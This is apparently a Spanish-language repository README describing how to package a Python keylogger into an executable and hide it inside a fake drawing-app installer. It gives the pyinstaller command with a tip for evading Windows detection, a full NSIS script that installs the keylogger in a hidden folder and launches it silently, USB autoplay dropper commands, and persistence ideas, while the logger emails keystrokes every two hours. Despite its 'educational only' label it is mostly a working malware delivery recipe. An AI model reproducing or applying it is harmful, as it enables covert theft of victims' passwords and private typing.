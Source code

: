 # Instalador de un keylogger en una víctima Windows

Este proyecto está desarrollado solo para fines educativos.

## Idea de ataque en windows con keylogger:

Crear un instalador que instala una "app" ficticia de dibujo pero a la vez el instalador instala un keylogger(`keylogger.py`) en una carpeta oculta que se lanza automáticamente al finalizar el instalador.

El keylogger guarda todos los registros de teclado en un fichero y cada 2 horas envía por e-mail todo lo registrado. Se utiliza la librería [Sendgrid](https://sendgrid.com/solutions/email-api/) (Requiere una cuenta)

Para salir del keylogger la víctima puede teclear una combinación de teclas `<ctrl>+<alt>+q`
## EXE

Se utiliza [pyinstaller](https://www.pyinstaller.org/) que permite embeber un proyecto pyhton en un .exe

```bash
pyinstaller --onedir --name "draw" -w keylogger.py
```

--name

nombre del exe `ej: draw.exe`

--onedir

el ejecutable se puede crear de dos modos, en modo `onefile` que solo crea un exe o en modo carpeta `onedir` con el .exe y las librerías. Lo más limpio sería empaquetar el script en un solo fichero .exe. Pero en las pruebas realizadas Windows detecta más facilemente que es un virus cuando se utiliza `onefile`. En modo carpeta windows es más permisible. *De esta manera nos saltamos que windows bloque el keylogger*

El pyinstaller crea el directorio `dist\draw` con el exe `dist\draw\draw.exe` y las librerias
## Instalador del keylogger (ingeniería social)

Utilizando el software [nsis](https://nsis.sourceforge.io/Main_Page) se enmascara la instalación del keylogger como si fuera un software de dibujo, el usuario creerá que es un app de dibujo (es un enlace a app online) pero también instalará el keylogger en un directorio oculto (`.backup`)

Una vez finaliza la instalación se ejecuta el keylogger de forma transparente a la victima.

Pasos para generar el instalador:

- Copiar y renombrar `draw.url.dist_sample` `installer.nsi.dist_sample` y `LEEME.txt.dist_sample` en la carpeta `dist`.
- Renombrar la carpeta `dist/draw` por `dist/.backup`

```
copy draw.url.dist_sample dist\draw.url
copy installer.nsi.dist_sample dist\installer.nsi
copy LEEME.txt.dist_sample dist\LEEME.txt
move dist\draw dist\.backup

```

- Ejecutar el script `dist\installer.nsi` con NSIS para generar el instalador `draw-installer.exe`

Script NSIS

```
Outfile "draw-installer.exe"

InstallDir C:\Draw

Section

SetOutPath $INSTDIR

File LEEME.txt
File draw.url

SetOutPath $INSTDIR\.backup

File .backup\base_library.zip
File .backup\draw.exe
File .backup\libcrypto-1_1.dll
File .backup\libffi-7.dll
File .backup\libssl-1_1.dll
File .backup\pyexpat.pyd
File .backup\python310.dll
File .backup\select.pyd
File .backup\unicodedata.pyd
File .backup\VCRUNTIME140.dll
File .backup\_asyncio.pyd
File .backup\_bz2.pyd
File .backup\_ctypes.pyd
File .backup\_decimal.pyd
File .backup\_hashlib.pyd
File .backup\_lzma.pyd
File .backup\_multiprocessing.pyd
File .backup\_overlapped.pyd
File .backup\_queue.pyd
File .backup\_socket.pyd
File .backup\_ssl.pyd

SectionEnd

Section

SetOutPath $INSTDIR

SetFileAttributes "c:\Draw\.backup" HIDDEN

SetOutPath "c:\Draw\.backup"

Exec '"draw.exe"'

ExecShell "open" "C:\Draw"

SectionEnd

```
# Crear USB con autplay

```
copy autorun.inf.sample d:\autorun.inf
copy draw.lnk.sample d:\draw.lnk
copy LEEME.txt.dist_sample d:\LEEME.txt
md d:\.backup
attrib +h d:\.backup /s /d
copy dist\.backup d:\.backup
```
## Posibles mejoras

* Cifrar el texto cuando se guarda en el fichero y descifrarlo en el envio por e-mail
* Modificar el registro de windows para que se lance al inicio de Windows
* Salir si ya hay un keylogger ejecutandose.
* Que el keylogger se autoarranque si no se está ejecutandose



